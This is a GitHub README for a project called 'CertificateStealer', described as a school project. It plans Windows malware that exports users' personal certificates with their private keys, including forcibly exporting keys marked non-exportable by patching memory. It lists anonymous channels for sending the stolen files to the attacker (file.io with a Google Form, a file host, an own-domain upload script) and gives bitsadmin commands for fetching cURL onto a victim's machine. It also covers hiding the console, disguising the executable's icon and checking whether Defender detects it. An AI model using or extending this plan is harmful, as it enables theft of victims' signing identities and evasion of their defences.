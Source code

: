 # CertificateStealer
This is school Project - learning purpose only !


# <img src="./doc/SnakeBite.png" width="600" alt="SnakeBite">


TIMELINE:
------
The sooner the better ! <br>
I expect a lot of glitches and errors in the process <br>

TO DO:
------
- Cut audio record of project specifications to just this project.      ✅
- Make UML diagrams of program (UseCase diagram, Class diagram).        ❌
- Do research about certificates (storing, extracting, types,...).      ✅
- Make first testing version of program extracting certificates.        ✅
- Debug the first version.                                              ✅
- Rebuild program, upgrade version.                                     ✅
- Add transfering to (google disk, email, server, ....)                 ✅
- Checking/Installing cURL to computer                                  ✅
- Hide console (or show fake information)                               ✅
- Hide code (deobfuscate code).                                         ❌
- Try detecting with different antiviruses.                             ✅ - (defender, browser)
- Wrap the code to some application (make it background process).       ❌
- Final tests.                                                          ✅
- .....


Rewriten audio :
------
- certificates in operating systems (certmgr) - target on Personal certificates
- create malware which exports certificate WITH PRIVATE KEY ! (automaticaly) it can be circumvent by some techniques

minimal:

- automatic export of Personal certificates with PRIVATE KEYs

expanded:
- transport (send) exported(stolen) certificates to hacker (email, google drive, network,...) - try to HIDE it !
- exported certificates protect with password (easiest, widnows, in exporting phase set password) or some other techniques - to not be used by someone else (encrypt canal which we use to send them)

IMPORTANT experience gained after research:
------
Dont use Python (just Mimikatz is good for this job), it can be used but just for calling powershell functions. So instead of python use POWERSHELL ?

Personal certificates are stored in `dir cert:\currentuser\my` , you can list them and then export with easy powershell script, but certificates must have flag "exportable" otherwise they canot be exported with this method. In the other words certificates marked as NonExportable canot be exported through powershell function `Export-PfxCertificate`, so we have to use another method.

You can also find certificates in `%SystemDrive%\Documents and Settings\All Users\Application Data\Microsoft\Crypto\RSA\MachineKeys` and in registry `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\My\Certificates`, from registry you can export it and then on another computer modify registry to import certificate, but it canot be use to signing. It is possible to repair these imports with poweshell command `certutil -repairstore my <certificate-fingerprint>` - *NOT TESTED*.

Because we want export private keys too, we can use `Mimikatz` for exporting certificates with private keys, but it is detected by antiviruses.

So second option is to dump the private key from memory of running computer by ourself. There is one project on github which already did it (<b>just WIN7 and lower</b>) [github](https://github.com/luipir/ExportNotExportablePrivateKey) + for corectly working we need to get [vcredist_x86_2010.exe](https://www.microsoft.com/en-us/download/details.aspx?id=26999) for compiling `exportrsa/Release/exportrsa.exe`.

+ TESTED, worked + exported certificate is secured with password. - ideal state

❗❗❗

Windows 10 version of Exporting non exportable certificate: [github](https://github.com/iSECPartners/jailbreak/tree/master)

Need to check code and use just what we need + wrap for more functions. ✅

+ TESTED                                                                ✅
+ Rewritten to just needed functions (*trymyown* folder)                ✅

Transfering certificates (options):
------
- Upload on https://www.file.io/ (file gets auto delete after one download)
    - Then copy share link and write it in google forms: https://forms.gle/QSG9oaR2XfSXptkAA
    - And just Send form :) - it should work anonymously without login.
- http://leteckaposta.cz/ (30 days then remove)
    - same as above, link for downloading can be used more times.
- Own domain upload
    - *working* with my own domain and PHP file upload script on it. (need to handle how to get cURL on victims computer to be able to use it....) Win10 and laters should default have it. 

### Download cURL with cmd line:

- `bitsadmin /transfer curlDownloadJob /download /priority high https://curl.se/windows/dl-8.1.1_1/curl-8.1.1_1-win64-mingw.zip C:\Users\user\Download\curl.zip`
- extract to folder in system
- add to PATH `setx /M PATH "%PATH%;C:\curl"` (need admin rights not cleaver, must be run as ADMIN)
- reopen cmd and it can be used :)


## Build .exe program one clik run:

- Need to modify Visual Studio settings.
- Switch to "Release"
- Go to configuration
- Project Properties -> C/C++ -> Code Generation
- Here change "Runtime Library" to "/MT Multi-threaded" for static building (it will include all needed C++ libs in .exe, which will cause running on computer without instaled Visual Studio.)
- Then Folder Release is created, just file .exe is needed (file .pdb is for handing errors like programer/developer, not needed for users.)
- Wrap Release folder and send --> Woala Program is working on other computer.


### Add own icon:
- Used "Resource Hacker".
- Load .exe file.
- In tree select "Icon / Icon Group" and replace it.
- If there is not Icon in tree  structure -> add new Binary, select .ico file, rename *.ico and select it is Icon/ Icon Group.
- Save / or Save as to apply chnages, now the .exe has your icon and code is not corupted.

## Antivirus testing:

- Browsers                              ✅      -> added password to ZIP
- Microsoft Defender                    ✅      -> clean no sus
- ...                                   ❌✅    -> 
- ...                                   ❌✅    -> 


# Finall:

- Finall executable application is built in folder `finall` 

# Marking nonexportable key as exportable:

result in documentation - PDF : site 18+

- Get a pointer to a memory location that contains a private key.
- Identify and modify specific bits in memory that affect the properties of the private key. These bits affect the exportability of the key.
- Once the bits in memory have been modified, the key will be considered exportable and therefore can be exported from the application.